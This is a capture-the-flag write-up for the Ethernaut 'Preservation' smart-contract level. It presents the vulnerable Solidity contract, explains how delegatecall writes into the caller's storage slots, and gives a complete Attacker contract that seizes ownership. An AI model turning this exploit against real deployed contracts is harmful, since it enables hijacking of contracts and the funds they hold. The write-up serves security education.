 # 16. Preservation

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Vulnerability

The issue here is that with delegate call, the delegated contract (LibraryContract) will execute using the storage context of its caller (Preservation).
When LibraryContract writes to its storage variable `storedTime` it will overwrite storage slot 0. But in the context of Preservation, this storage slot holds the variable `timeZone1Library`.

This allows us to overwrite the address of library1 very easily for the address of our choice, preferably the address of a contract that we control.
This attacking contract could then have a function `setTime(uint256)` and therefore allow delegated calls from Preservation with the objective of overwriting storage slot 2 which contains the owner variable.

The following contract solves the challenge, Metamask has some issues with gas estimation just make sure to call `attack()` with at least `43,663` gas.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
    // Storage slot 0
    address placeHolder1;
    // Storage slot 1
    address placeHolder2;
    // Storage slot 2
    address placeHolder3;
    // Storage slot 3
    uint256 placeHolder4;
    // Storage slot 5
    address public targetContract;

    constructor(address _targetContract) {
        targetContract = _targetContract;
    }

    function attack() public {
        // Use library 1 to overwirte its own address in Preservation contract by our contract address.
        (bool success,) = targetContract.call(abi.encodeWithSignature("setFirstTime(uint256)", this));
        require (success == true);

        // Make a second call, this one will be delegated to our contract which will overwrite the owner in storage slot2
        (success, ) = targetContract.call(abi.encodeWithSignature("setFirstTime(uint256)", 0));
        require (success == true);
    }

    function setTime(uint _time) public {
        placeHolder3 = tx.origin;
    }
}
```